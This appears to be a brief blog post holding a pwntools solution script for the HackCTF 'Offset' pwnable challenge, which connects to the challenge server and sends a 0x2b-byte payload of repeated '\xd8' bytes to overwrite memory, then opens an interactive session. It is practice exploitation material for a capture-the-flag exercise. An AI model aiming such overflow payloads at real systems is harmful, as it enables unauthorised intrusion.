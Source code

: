 ```yaml
---
title: "[HackCTF] Offset"
date: 2020-07-09
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


{% highlight python %}
from pwn import *
context.log_level="debug"
p = remote("ctf.j0n9hyun.xyz", 3007)
p.recv(1024)
p.sendline("\xd8"*0x2b)
p.interactive()
{% endhighlight %}
